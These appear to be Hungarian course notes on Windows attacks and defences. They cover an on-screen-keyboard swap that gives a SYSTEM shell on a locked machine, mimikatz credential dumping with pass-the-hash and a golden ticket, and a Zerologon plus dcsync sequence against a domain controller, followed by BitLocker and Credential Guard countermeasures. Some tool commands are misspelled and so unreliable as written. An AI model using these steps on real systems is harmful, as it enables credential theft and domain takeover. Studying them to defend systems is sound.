 ### Támadások
#### Elfelejtett jelszó
+ Jelszavas védelem kikapcsolása
  + windows installerből shift+f10  -> admin console cmd
  + átlépünk a c:-be
  + ren osk.exe osk.exe.bak -- rename  
  + cmd-t bemásolni osk.exe helyére
  + vissza login screen
  + ott az on screen keyboard indításával a cmd fut le
  + whoami -- **nt authority\system**
  + mmc -- microsoft management console
    + innen az admin jelszó egyszerűen megváltoztatható
+ pas the hash támadás
  + kliensen admin jogosultság
  + mimikatz alkalmazással
    + privilidge::debug
    + sekurmsa::logonPasswords -- dumb msa pwd-s
    + kell keresni egy magasabb szintű user-t pl domain admin és akkor megszerzed igy a hash-t
    + sekurmsa::pth /user: username  /domain: domain /ntlm: hash
    + krbtgt
      + kerberos key distribution user account
      + golden ticket
        + mindenki nevében tudd ticketet előállítani
+ Zero logon
  + domain kontroller jelszó reset
  + mimiikatz
  + lsadumb::zerologon /target:DC /account:DC$ /null /ntlm
    + check hogy exploitable
  + lsadumb::zerologon /target:DC /account:DC$ /null /ntlm  /exploit
  + lsadump::dcsync /domain: domain /dc:DC /user:krbtgt (ez fontos hogy ő) /authuser:DC$


### Védések
+ Bitlocker
  + Require additional auth on startup
  + kriptálva van a HDD

+ turn on virtualization based security
  + credential Guard
    + UEFI lock: csak uefi-bő lehessen kikapcsolni
  + a hash enkriptálva lesz

+ System update

### Info
+ EFS
  + file szintű titkosítás
  + transzparensen titkosítva
  + advanced attributes-ben lehet



+ Domain groupos támadások
  + pas the hash támadás
    + elég ezt a hash tudni belépéshez
    + ki lehet szedni a hash-t az msa local security authority process-ből
